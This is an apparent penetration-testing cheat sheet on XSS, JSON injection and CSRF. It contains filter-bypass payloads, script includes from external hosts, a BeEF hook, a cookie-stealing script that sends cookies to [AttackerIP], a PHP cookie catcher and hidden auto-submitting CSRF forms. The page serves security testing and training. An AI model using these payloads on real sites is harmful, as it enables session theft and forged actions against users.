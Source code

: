 ```yaml
---
title: XSS, Javascript, and CSRF
category: Web Application
order: 6
---
```


> **XSS Reflection Testing**

**Using Burp - Step 1:** 
1. Intruder-> Battering Ram (include user-agent, referer, cookie values)
2. Payoad -> Use a magic string: 9vqkz (any random string)
3. Options -> Search responses for payload strings -> magic string
4. Sort on p grep, if found change attack type to sniper.

**Using Burp - Step 2 Filter Test:**
1. Repeat above with sniper and the following payloads (simple list):
* <code> &lt;&gt;[]{}()$--'#&#34;&amp;;/ </code>
* <code> '';!--&#34;&lt;XSS&gt;=&amp;{()}</code>
* <code> &lt;x&gt;'&#34;()= </code>
* <code> ;[]{}'"() </code>
* <code> jAvaSCript:prompt(9vqkz) </code>
* <code> &lt;script&gt;alert(42);&lt;/script&gt; </code>

**DOM Based:**

* Look for document.[] like document.write in the client side javascript

**Additional Payloads:**
* Fuzzdb /attack-payloads/xss
* JBroFuzz (built into ZAP)
* Burp (Pro provides expanded payloads)
* ZAP (JBroFUzz and some fuzzdb)
* XSSer (includes some that the others don't have)

**Additional XSS Test Strings**
{% highlight html %}
<script>alert(document.cookie);</script>
<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>
<script src=http://www.example.com/malicious-code.js></script>
%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e
>"><script>alert("XSS")</script>&
"><STYLE>@import"javascript:alert('XSS')";</STYLE>

//Unicode Filter Bypass
＜script src=https://tiny.cc/numbers＞＜/script＞

//Only works for IE6 and earlier
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')> 
<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>
<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">
{% endhighlight %}

**Tools:**
* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)

**Resources:**
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

> **Javascript Events for XSS**

onload | change content after it loads
onunload | launch pop-under window to retain control of a zombie browser
onsubmit | change form values os the transaction is one of the attacker's choosing
onfocus | send http request to the attacker's web server to reveal which controls the user is selecting

> **XSS Exploitation**

**SSL/TLS Enable Sites and External Scripts**
* Note that exteral scripts on SSL/TLS enabled sites requires the script to be hosted on an SSL enabled site
* Example would be github and https://rawgit.com/path/to/script.js
* Shorten with tinyurl or alternatives

**Exploitation Options**
* Redirect to competitor (or other equivantly bad site) 
	* <code> window.location.href = "http://www.sec542.org" ; </code>
* Have form submit to you:
	* <code> document.forms[1].action="http://www.sec542.org" </code>
* Add Competitor logo
* Negative fake information (or other content modification)
* Read cookies
* Fake Login Site 

**Basic Stealing Cookie:**
{% highlight html %}
<!-- Attacker -->
python -m SimpleHTTPServer 

<!-- Victim -->
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+document.cookie;</script>
{% endhighlight %}

**POST:**
*Needs CSRF Vulnerability to work*
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

**XSS Cookie Catcher**
{% highlight php %}

#Attacker
<?php
$cookies = $_SERVER['REQUEST_URI'];
$output = "Received=".$cookies."\n";
$fh = fopen("/tmp/cookiedump", "a+");
$contents = fwrite($fh, $output);
fclose($fh);
echo "FOO!";
?>

#Victim
http://www.sec542.org/PhpMyAdmin/index.php?lang=<script>var lo=document.location;document.location='//[AttackerIP]/cookiecatcher.php?'%2bdocument.cookie;var la = new Array();la = lo.toString().split('?');document.location=la[0];</script>
"
{% endhighlight %}

**Take Over a Page**
{% highlight html %}
<style type="text/css"> <! -- .style11 {position:fixed; top:0px; left:0px; bottom:0px; right:opx; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;} //-->
</style>

<iframe class="style11" src="http://127.127.127.127/www.sans.org/account/" frameborder="0" scrolling="no" />
{% endhighlight %}

**BEEF**
{% highlight html %}
<script src=http://beefserver:3000/hook.js></script>
<!-- Most important is the browser exploitation - Metasploit attack payloads -->
{% endhighlight %}


>**XML Get HTTP Request**

{% highlight javascript %}
//Create the oject
xmlhttp = new XMLHttpRequest();
//Sets which function should be called when the ready state changes (AJAXProcess is a custom function)
xmlhttp.onreadystatechange = function () { if (xhr.readyState ==4 && xhr.status ==200) { document.getElementByID("answer").innerHTML = xhr.responseText;}}
//set up the request
xmlhttp.open("GET", "http://www.url.org/index.php");
//Send the request
xmlhttp.send();
//The property that contains the current ready state
xmlhttp.readyState
//THe property that contains the contents of any response from the server
xmlhttp.responseText
{% endhighlight %}

>**XML Post HTTP Request**

{% highlight javascript %}
//Create the oject
xmlhttp = new XMLHttpRequest();
//Alerts the response
xmlhttp.onreadystatechange = function () {if (xmlhttp.readyStat == XMLHttpRequest.DONE) { alert(xmlhttp.responseText); }
//set up the request
xmlhttp.open("POST", "http://www.url.org/index.php");
//set up the content type
xmlhttp.setRequestHeader("Content-type", "applicaiton/x-ww-form-urlencoded");
//Send the request
xmlhttp.send("param1=value1&param2=value2&param3=value3");
//The property that contains the current ready state
xmlhttp.readyState
//THe property that contains the contents of any response from the server
xmlhttp.responseText
{% endhighlight %}

>**Exploiting JSON**

Look for:
1. Too much data provided from server and being filtered on the client
	* Use burp/zap to look at JSON data sent for extra data or error messages
2. Error messages provided from server but filtered on the client
	* Use burp/zap to look at JSON data sent for extra data or error messages
3. Injection (JSON to the server, or JSON in the response, eval)
	* Intercept the JSON and insert attack strings (XSS, SQL), be careful with XSS because it is in a JSON object that is going to be parsed and break out of it appropriately.

>**XSS JSON**

If data is reflected from input into JSON Object (9vqkz is test string):
{% highlight javascript %}
{"query": {"toolIDRequested": "9vqkz", "penTestTools": []}}

Example escape using concatinate:
Prefix: 1"+
Paylod: eval(alert(1))
Suffix:+1

prefix: 1"%2b
Payload: eval(alert(1))
Suffix: %2b"1

prefix: 4"}}); 
payload: alert(1);
suffix:   //
{% endhighlight %}

> **CSRF**

Look for:
1. No CSRF Token
2. Actions that perform a sensitive or important action
	* Network Devices to allow bad guys to come in
3. Transaction that contains predictable parameters

> **CSRF Exploits**

With ZAP:
1. Right Click on the request in the history
2. Generate Anti CSRF Test From
3. In a logged in session test form

*Burp also has one in the pro version*

{% highlight html %}
GET:
Image tag 
<img src="https://a.tld/t.php?acct=12345&amt=1000">

IFRAME
<iframe src="https;//a.tld/t.php?acct=12345&amt1000">
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>

CSS or Javascript import 

XMLHTTPRequest
{% endhighlight %}

{% highlight html %}
<html>
<body onload="f1.submit()";>
<h3>http://www.sec542.org/sec542_oldforum/posting.php</h3><form id="f1" method="POST" action="http://www.sec542.org/sec542_oldforum/posting.php">
<table>
<tr><td>
post<td><input name="post" value="Submit" size="100"></tr>
<tr><td>
message<td><input name="message" value="test :D " size="100"></tr>
</table>
</form>
<button onclick="document.getElementById('f1').submit()">Submit</button>
</body>
</html>
{% endhighlight %}

Useful Resource:

* [Multi Post CSRF](https://www.lanmaster53.com/2013/07/multi-post-csrf/)

> **Useful Resources**

* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors) 
* [XSS Examples](http://www.xssed.com/)
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)


> **Useful Tools**

* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)


